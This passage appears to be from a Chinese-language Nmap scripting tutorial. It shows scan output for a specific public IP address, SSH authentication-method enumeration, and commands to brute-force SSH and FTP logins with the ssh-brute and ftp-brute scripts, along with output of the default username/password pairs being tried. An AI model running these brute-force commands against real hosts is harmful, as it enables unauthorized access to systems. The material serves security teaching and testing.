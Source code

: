 ```sh
|   Status: Autocommit
|   Salt:
| =\x06Dq\x17Z|W'\x1F:\x1C)\x07`Bx,D
|_  Auth Plugin Name: mysql_native_password
3389/tcp closed ms-wbt-server
8080/tcp closed http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### auth
ssh-auth-methods：返回SSH服务器支持的认证方法
```sh
$ nmap --script=ssh-auth-methods 39.99.181.194
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 16:03 ?D1ú±ê×?ê±??
Nmap scan report for 39.99.181.194
Host is up (0.069s latency).
Not shown: 995 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|     gssapi-keyex
|     gssapi-with-mic
|_    password
23/tcp   open   telnet
3306/tcp open   mysql
3389/tcp closed ms-wbt-server
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 60.76 seconds
```
#### brute
暴力破解
对SSH服务进行暴力破解：

```sh
$ nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s 39.99.181.194
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 16:11 CST
NSE: [ssh-brute] Trying username/password pair: root:root
NSE: [ssh-brute] Trying username/password pair: admin:admin
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: webadmin:webadmin
NSE: [ssh-brute] Trying username/password pair: sysadmin:sysadmin
NSE: [ssh-brute] Trying username/password pair: netadmin:netadmin
NSE: [ssh-brute] Trying username/password pair: guest:guest
NSE: [ssh-brute] Trying username/password pair: user:user
NSE: [ssh-brute] Trying username/password pair: web:web
NSE: [ssh-brute] Trying username/password pair: test:test
......
```
ftp暴力破解
```sh
$ nmap --script ftp-brute -p 21 <host>
```
